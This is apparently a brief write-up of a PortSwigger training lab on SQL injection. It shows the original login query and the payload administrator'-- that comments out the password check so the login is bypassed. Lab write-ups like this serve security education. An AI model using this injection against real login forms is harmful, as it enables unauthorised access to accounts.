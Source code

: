 ## Lab Description: SQL injection vulnerability allowing login bypass

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a1c1aa4d-99c2-4823-8e1d-a50dc2c6bd4d)

## Solution:

Query made -
```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'password'
```
To bypass the login, we need to comment out the password part in WHERE clause.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/45158836-7ae8-4657-9842-a698940ace47)
```sql
SELECT * FROM users WHERE username = 'administrator'--' 
```
![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/80420257-3c47-49d3-8678-ea57be97ff91)

